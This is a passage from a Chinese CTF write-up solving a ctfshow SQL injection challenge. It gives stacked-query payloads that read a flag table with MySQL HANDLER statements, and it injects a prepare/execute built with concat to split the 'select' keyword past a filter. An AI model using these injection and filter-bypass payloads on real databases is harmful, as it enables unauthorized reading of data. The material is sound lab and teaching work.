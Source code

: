 在f12调试界面可以看到接口返回的信息，两个表名，应该是键名`tables_in_ctfshow_web`和字段对不上，所以没有直接显示在页面里。

查询flag表里的字段名

![2250](/medias/show-sql/2250.png)

这道题类似`强网杯 2019 - 随便注`。下面有多种解题思路

[强网杯 2019 - 随便注](/pages/a7f3bd/)

### 思路一

直接读取表里的内容，这里flag在表里的第一行，直接读出来了，如果不是第一行，可以多执行几次`handler a read next;`

```sql
handler `ctfshow_flagasa` open as `a`;
handler `a` read next;
```

![2252](/medias/show-sql/2252.png)

### 思路二

执行预处理的sql语句，通过拼接绕过select的限制，变量名不要叫`sql`，`sql是关键字`

```sql
ctfshow';show tables;prepare a from concat('s','elect',' *from ctfshow_flagasa');execute a;#
```
